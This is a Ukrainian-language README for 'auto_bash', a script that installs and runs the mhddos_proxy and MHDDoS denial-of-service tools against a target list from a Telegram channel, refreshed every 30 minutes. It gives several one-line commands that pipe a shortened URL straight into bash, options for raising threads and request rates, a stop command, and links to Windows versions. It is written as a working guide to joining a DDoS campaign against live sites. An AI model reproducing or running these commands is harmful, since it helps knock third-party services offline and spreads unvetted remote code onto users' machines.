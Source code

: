 ## 🪖 Bash скрипт (Windows, Linux, WSL2, Віртуальна машина)  

## ❕Опис

### auto_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -L tiny.one/autobash | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 30 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04+ або Debian 11+. Але повинно працювати на всіх Debian похідних, наприклад Kali, а також у WSL2.

Для зупинки скрипта закрийте вікно з терміналом.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`. Значення потрібно підбирати індивідуально, цифри нижче лише для прикладу. В більшості випадків рекомендується не змінювати значення параметру і використовувати команду по замовчуванню.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -L tiny.one/autobash | bash -s --  500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -L tiny.one/autobash | bash -s --  4000
```


## ❕ Передача параметрів (тестовая версия)
```
curl -L tiny.one/autobash-test | bash -s -- -t 1000 -r 2000 -k 1 --table
```

`-t 1000` - 1000 тредів

`-r 2000` - 2000 rpc

`-k 1` - kill 1 hour. Завершити скрипт через 1 годину роботи

`--table` - увімкнути режим відображення данних в таблиці


## Зупинка скрипту

1. Або просто зачинити термінал.

2. Або в іншому терміналі виконати `pkill -f start.py; pkill -f runner.py` а потім натиснути CTRL+C у терміналі з скриптом.

## Запуск на Windows у powershell.

Потрібна лише Windows 7 або вище. Усе інше скрипт зробить самостійно.

https://github.com/mErlin-sp/mhddos_powershell

## Встановлення на Windows.

[Инструкція по встановленнию Python3 і Git на Windows](https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27). Не тестувалось на сумісність з auto_bash. Дозволяє як мінімум запускати mhddos_proxy командами які надаються в каналі [українського женця](https://t.me/ukrainian_reaper_ddos). У випадку помилок можна написати по координатах, залишених в кінці інструкції.
